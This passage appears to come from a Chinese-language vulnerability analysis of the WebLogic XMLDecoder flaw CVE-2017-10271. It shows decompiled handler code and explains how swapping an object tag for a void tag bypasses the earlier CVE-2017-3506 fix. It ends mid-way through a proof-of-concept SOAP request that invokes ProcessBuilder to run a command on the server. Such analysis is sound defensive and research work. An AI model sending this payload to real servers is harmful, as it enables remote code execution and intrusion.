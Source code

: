 ``` java
         throw new IllegalStateException("Parser Exception", var6);
      } catch (IOException var7) {
         throw new IllegalStateException("Parser Exception", var7);
      }
   }
```

## CVE-2017-10271

在整个漏洞利用过程中XMLDecoder中涉及到一个DocumentHandler类非常重要，DocumentHandler中的ElementHandler中处理的XML标签有下面这些。

``` java
    public DocumentHandler() {
        this.setElementHandler("java", JavaElementHandler.class);
        this.setElementHandler("null", NullElementHandler.class);
        this.setElementHandler("array", ArrayElementHandler.class);
        this.setElementHandler("class", ClassElementHandler.class);
        this.setElementHandler("string", StringElementHandler.class);
        this.setElementHandler("object", ObjectElementHandler.class);
        this.setElementHandler("void", VoidElementHandler.class);
        this.setElementHandler("char", CharElementHandler.class);
        this.setElementHandler("byte", ByteElementHandler.class);
        this.setElementHandler("short", ShortElementHandler.class);
        this.setElementHandler("int", IntElementHandler.class);
        this.setElementHandler("long", LongElementHandler.class);
        this.setElementHandler("float", FloatElementHandler.class);
        this.setElementHandler("double", DoubleElementHandler.class);
        this.setElementHandler("boolean", BooleanElementHandler.class);
        this.setElementHandler("new", NewElementHandler.class);
        this.setElementHandler("var", VarElementHandler.class);
        this.setElementHandler("true", TrueElementHandler.class);
        this.setElementHandler("false", FalseElementHandler.class);
        this.setElementHandler("field", FieldElementHandler.class);
        this.setElementHandler("method", MethodElementHandler.class);
        this.setElementHandler("property", PropertyElementHandler.class);
    }
```

CVE-2017-3506需要用到的是object标签，那么10271是怎么绕过的呢，我们先比较一下POC。

区别就是原来object标签替换成了void标签。

``` xml
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: localhost:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: remember-me=MXPUSANQRVaBJYtUucUgmQ==
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 708

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">  
  <soapenv:Header> 
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">  
    <java>
        <void class="java.lang.ProcessBuilder">
            <array class="java.lang.String" length="1">
                <void index="0">
                	<string>calc</string>
                </void>
            </array>
```